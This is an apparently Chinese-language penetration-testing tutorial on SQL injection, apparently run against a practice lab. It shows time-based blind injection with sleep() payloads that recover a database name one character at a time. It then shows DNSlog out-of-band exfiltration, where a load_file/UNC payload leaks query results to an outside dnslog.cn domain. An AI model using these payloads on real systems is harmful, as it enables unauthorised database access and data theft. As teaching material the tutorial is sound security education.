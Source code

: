 ![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505153874-95d56f80-1ac9-4a44-93a7-b4d8f7c63939.png#align=left&display=inline&height=147&margin=%5Bobject%2Object%5D&originHeight=287&originWidth=810&status=done&style=none&width=416)
### 1.2 延时盲注
       延时盲注，一种盲注的手法。在渗透测试过程中当我们不能使用显错注入、报错注入以及布尔盲注无论布尔值为真还是为假，页面都返回一样之后，我们可以尝试使用延时盲注，通过加载页面的时间长度来判断数据是否成功。在PHP中有一个if()函数，语法为if(exp1,exp2,exp3)，当exp1返回为真时，执行exp2，返回为假时，执行exp3。配合延时函数sleep()来获取相应数据的ascii码，最后还原成数据。下面我将通过实例来介绍如今进行延时盲注。
1、首先获取的页面如下，后面不论接上布尔值为真还是为假的，页面都返回一样，此时将不能使用布尔盲注。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505154171-53cd2d36-c123-4091-ba74-fb80319ba1f9.png#align=left&display=inline&height=146&margin=%5Bobject%2Object%5D&originHeight=277&originWidth=785&status=done&style=none&width=415)
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505154477-058cbb12-c306-42db-8afd-7b9c0b26dd87.png#align=left&display=inline&height=154&margin=%5Bobject%2Object%5D&originHeight=295&originWidth=796&status=done&style=none&width=416)
2、通过and拼接延时函数查看页面是否有延时回显。首先记录没有使用延时函数的页面返回时间，为4.*秒；使用sleep(5)延时5秒之后，页面响应时间为9.*秒，说明对于我们输入的sleep()函数进行了延时处理，此处存在延时盲注。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505154774-5573d6ac-4de8-4808-b813-7c983b1e63a3.png#align=left&display=inline&height=120&margin=%5Bobject%2Object%5D&originHeight=418&originWidth=1448&status=done&style=none&width=416)
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505155245-cac61cf1-0e9f-41cf-a967-182f57ac1554.png#align=left&display=inline&height=116&margin=%5Bobject%2Object%5D&originHeight=382&originWidth=1371&status=done&style=none&width=415)
3、通过延时注入判断数据库库名的长度。一个个测试发现当长度等于8时页面延时返回了，说明数据库库名长度为8。
?id=2' and if((length(database())=8),sleep(5),1) %23
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505155513-36485f8a-abee-4402-a197-44636b0a2f86.png#align=left&display=inline&height=167&margin=%5Bobject%2Object%5D&originHeight=434&originWidth=1081&status=done&style=none&width=415)
4、与布尔盲注一样，将子查询的数据截断之后判断ascii码，相等时延时5秒。最后得到第一个字符的ascii码为115。
?id=2' and if((ascii(substr((select database()),1,1))=115),sleep(5),1) %23
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505155940-da473dc6-2ac2-4ec1-b180-7c6456d0de47.png#align=left&display=inline&height=144&margin=%5Bobject%2Object%5D&originHeight=423&originWidth=1220&status=done&style=none&width=415)
5、后面替换截断的位置，测试后面的字符的ascii码值。最后得到对应的ascii码值为115 101 99 117 114 105 116 121。通过ascii解码工具解得数据库库名为security。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505156315-650ab5b8-b418-4536-bc9e-ba70ca07f13c.png#align=left&display=inline&height=286&margin=%5Bobject%2Object%5D&originHeight=477&originWidth=666&status=done&style=none&width=400)
### 巧用dnslog进行SQL注入
       前面介绍了SQL注入中的盲注，通过布尔盲注或者延时盲注来获取数据需要的步骤非常繁琐，不仅需要一个一个字符的获取，最后还需要进行ascii解码，这需要花费大量的时间与精力。为了加快渗透进程，以及降低获取数据的难度，这里介绍如何通过dnslog进行SQL注入。
#### Dnslog
       dnslog，即dns日志，会解析访问dns服务的记录并显示出来，常被用来测试漏洞是否存在以及无法获取数据的时候进行外带数据。简单来说，dnslog就是一个服务器，会记录所有访问它的记录，包括访问的域名、访问的IP以及时间。那么我们就可以通过子查询，拼接dnslog的域名，最后通过dns日志得到需要的数据。
#### Load_file()函数
       数据库中的load_file()函数，可以加载服务器中的内容。load_file('c:/1.txt')，读取文件并返回内容为字符串，使用load_file()函数获取数据需要有以下几个条件：
       1.文件在服务器上
       2.指定完整路径的文件
       3.必须有FILE权限
#### UNC路径
       UNC路径就是类似\\softer这样的形式的网络路径。它符合 **\\服务器名\服务器资源**的格式。在Windows系统中常用于共享文件。如\\192.168.1.1\共享文件夹名。
#### Dnslog注入实例演示
1、打开实例站点，很明显这里是只能使用盲注的站点。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505156851-edecb966-dc2b-46c0-bbba-280a9a6586f7.png#align=left&display=inline&height=205&margin=%5Bobject%2Object%5D&originHeight=516&originWidth=1046&status=done&style=none&width=415)
2、通过order by判断出字段数为3。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505157359-df1d201d-8e3f-4ae7-abad-93e6f6a15a3a.png#align=left&display=inline&height=238&margin=%5Bobject%2Object%5D&originHeight=451&originWidth=785&status=done&style=none&width=415)
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505157735-72a8dfd4-3a1d-4bcb-a55f-ff7862eef954.png#align=left&display=inline&height=228&margin=%5Bobject%2Object%5D&originHeight=448&originWidth=814&status=done&style=none&width=415)
3、在dnslog网站申请一个dnslog域名：pcijrt.dnslog.cn
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505158068-3fd1f43e-d354-4c51-a466-2c88660f7ff9.png#align=left&display=inline&height=166&margin=%5Bobject%2Object%5D&originHeight=413&originWidth=1035&status=done&style=none&width=415)
4、通过load_file函数拼接查询数据库库名的子查询到dnslog的域名上，后面任意接一个不存在的文件夹名。最后将这个查询放到联合查询中，构造的payload如下：
```http
?id=1 ' union select 1,2,load_file(concat('//',(select database()),'.pcijrt.dnslog.cn
/abc')) %23
```
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505158457-b4c723f7-cdba-43c0-9fc4-5d284d9f1728.png#align=left&display=inline&height=144&margin=%5Bobject%2Object%5D&originHeight=413&originWidth=1189&status=done&style=none&width=415)
5、执行语句之后在dnslog日志中获取到数据库库名为security。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505158874-723d612b-a6df-4d1d-a38b-98cf9036ddcb.png#align=left&display=inline&height=168&margin=%5Bobject%2Object%5D&originHeight=434&originWidth=1072&status=done&style=none&width=415)
6、修改子查询里的内容，获取其他数据。
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505159168-1cca463c-9c90-42db-822d-f944b8727a1f.png#align=left&display=inline&height=185&margin=%5Bobject%2Object%5D&originHeight=537&originWidth=1209&status=done&style=none&width=416)